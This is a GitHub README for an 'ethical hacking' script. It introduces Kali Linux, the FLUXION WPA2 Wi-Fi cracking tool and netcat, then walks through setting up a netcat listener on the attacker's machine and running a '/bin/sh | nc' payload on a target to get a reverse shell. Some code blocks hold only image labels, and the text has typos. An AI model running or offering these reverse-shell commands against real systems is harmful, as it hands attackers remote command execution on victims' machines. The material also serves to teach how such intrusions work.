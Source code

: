 # Python-Ehtical-Hacking

You need to have these two tools to run trhe script

## 1) Kali Linux OS –
Kali Linux is one of the best operating system based on UNIX having more than 1000s of pre-installed tools based on network/forensics/webapp etc. Kali Linux is an open source OS having monolithic type kernel and available in both 32-bit and 64-bit architecture.

There are so many automated cracking tools are there to crack into wi-fi networks like Gerix Wi-Fi Cracker and Fern Wi-Fi Cracker but all are limited to only WEP and WPA based networks but the tool which we’ll discuss is FLUXION is developed in python and usually used to crack WPA2-PSK based networks. DentaFlux is the developer who developed this awesome wi-fi cracking tool.

## 2) NetCat
Netcat is a command in Linux which is used to perform port listening, port redirection, port checking, or even network testing. Netcat is also called a swiss army knife of networking tools. This command is also used to create a reverse shell. Before getting in depth of reverse shell one must be aware of what exactly is netcat tool. To know more, you can go through the article netcat command.

Generally, in order to hack into a system, an attacker tries to gain shell access to execute the malicious payload commands. The gained shell is called the reverse shell which could be used by an attacker as a root user and the attacker could do anything out of it. During the whole process, the attacker’s machine acts as a server that waits for an incoming connection, and that connection comes along with a shell.

Creating Reverse Shells
### 1. Setup a listener: The very first step is to set up a listener on the attacker’s machine in order to act as a server and to listen to the incoming connections. Use the following command to start listening.
```shell
nc –nlvp 5555
```
Replace the port number 5555 with the port you want to receive the connection on.
```shell
netcat-listen
```


This will start the listener on the port 5555.

### 2. Receive connection along with a shell from target: Now as we have started listening, it’s time to execute a basic payload at the target so that we could get a reverse shell. Use the following command to send the request to the attacker.
```shell
/bin/sh | nc 127.0.0.1 5555
```
Replace 127.0.0.1 with the host IP of the attacker and 5555 with the attacker’s port.
```shell
netcat-connect
```
This will give a reverse shell to the attacker which attacker could use to execute any command.

### 3. Executing a command through shell: Now if we enter any command at the receiver’s terminal the output would be displayed on the attacker’s terminal.
```shell
netcat-live-reverse-shell
```
